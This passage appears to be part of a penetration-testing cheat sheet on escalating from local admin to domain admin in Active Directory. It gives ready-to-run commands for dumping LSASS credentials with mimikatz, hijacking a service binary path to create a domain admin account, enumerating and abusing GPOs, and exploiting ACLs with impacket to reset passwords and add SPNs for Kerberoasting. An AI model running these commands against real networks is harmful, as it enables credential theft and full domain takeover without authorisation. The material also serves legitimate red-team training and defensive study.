 ### Local Admin to Domain Admin

#### Token Impersonation
```bash
# Check for SeImpersonatePrivilege
whoami /priv

# Use JuicyPotato/PrintSpoofer/RoguePotato (covered in Windows PrivEsc guide)

# Once SYSTEM, dump LSASS
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
```

#### Service Account Exploitation
```bash
# If service runs as domain admin
# 1. Modify service binary path
sc config <service> binpath="cmd.exe /c net user hacker Password123! /add /domain && net group 'Domain Admins' hacker /add /domain"

# 2. Restart service
sc stop <service>
sc start <service>
```

### GPO Abuse
```bash
# Find editable GPOs
crackmapexec ldap <target> -u <username> -p <password> --gpo-enum

# PowerShell
Get-DomainGPO -ComputerIdentity <target-computer>

# Edit GPO to add user to local admin group or run commands
# This requires specific tools like SharpGPOAbuse
```

### ACL Abuse
```bash
# Use Bloodhound to find ACL attack paths
# Common ACLs to look for:
# - GenericAll
# - GenericWrite  
# - WriteOwner
# - WriteDACL
# - AllExtendedRights

# Example: GenericAll on user
# Change user password
impacket-changepasswd <domain>/<attacker-user>:<password> -newpass <new-password> <target-user>@<dc-ip>

# Example: GenericWrite on computer
# Add SPN for Kerberoasting
impacket-addspn <domain>/<username>:<password> -user <target-user> -spn <fake-spn> <dc-ip>
```
